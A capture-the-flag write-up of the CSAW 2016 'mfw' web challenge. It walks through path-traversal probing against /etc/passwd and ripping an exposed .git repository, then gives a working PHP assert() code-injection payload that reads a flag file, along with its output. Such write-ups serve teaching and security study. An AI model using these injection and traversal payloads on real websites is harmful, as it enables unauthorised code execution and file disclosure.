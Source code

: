 ```yaml
---
title: '[CSAW 2016] mfw Writeup'
author: Megabeets
type: posts
date: 2016-09-18T22:02:18+00:00

categories:
  - CSAW CTF 2016
  - Writeups
tags:
  - CSAW-2016
  - CTF
  - Web

---
```

#### **Description:**

> Hey, I made my first website today. It&#8217;s pretty cool and web7.9.  
> <http://web.chal.csaw.io:8000/>

&nbsp;

Entering the site, the first thing that comes to mind is a LFI attack. The site is including a page which is requested in the URL.

The following table describes the possible respond pages:

<table style="width: 945px;">
  <tr>
    <td style="width: 418.869px;">
      <strong>URL</strong>
    </td>
    
    <td style="width: 484.131px;">
      <strong>Result</strong>
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=home
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;home&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=about
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;about&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=contact
    </td>
    
    <td style="width: 484.131px;">
      The &#8220;contact&#8221; page is shown.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=Megabeets
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;That file doesn&#8217;t exist!&#8221;
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=flag
    </td>
    
    <td style="width: 484.131px;">
      An empty page is shown <strong>inside </strong>the website.
    </td>
  </tr>
  
  <tr>
    <td style="width: 418.869px;">
      http://web.chal.csaw.io:8000/?page=../../../../etc/passwd
    </td>
    
    <td style="width: 484.131px;">
      Just a message saying: &#8220;Detected hacking attempt!&#8221;
    </td>
  </tr>
</table>

Looking at the source code i saw the following comment:

```php
<!--<li ><a href="?page=flag">My secrets</a></li> -->
```


Ok, I need to get the &#8220;flag&#8221; page but any LFI technique I tried didn&#8217;t work. I thought about something else, In the &#8220;about&#8221; page the creator of the site mentioned that it was built using git. So let&#8217;s see if I am able to download the repository. The page http://web.chal.csaw.io:8000/.git/config exists so I downloaded the repository using <a href="https://github.com/kost/dvcs-ripper" target="_blank">DVCS-RIPPER</a>.

You can find index.php [here][1].

So the page is using assert() which is vulnerable to Command Injection attack. After a little trial and error I came up with the answer:

```ps
(Invoke-WebRequest "http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment").Content
```


And received the flag:

```php
string(52) "<?php $FLAG="flag{3vald_@ss3rt_1s_best_a$$ert}"; ?>
"
Detected hacking attempt!
```


If you try entering [the url][2] in a browser, look in the source of the page (CTRL+U), the flag is commented.



 [1]: https://gist.github.com/ITAYC0HEN/20edf000082b0765b493fb893cec96de
 [2]: http://web.chal.csaw.io:8000/?page=Megabeets') || var_dump(file_get_contents('templates/flag.php'));// Comment the rest of the line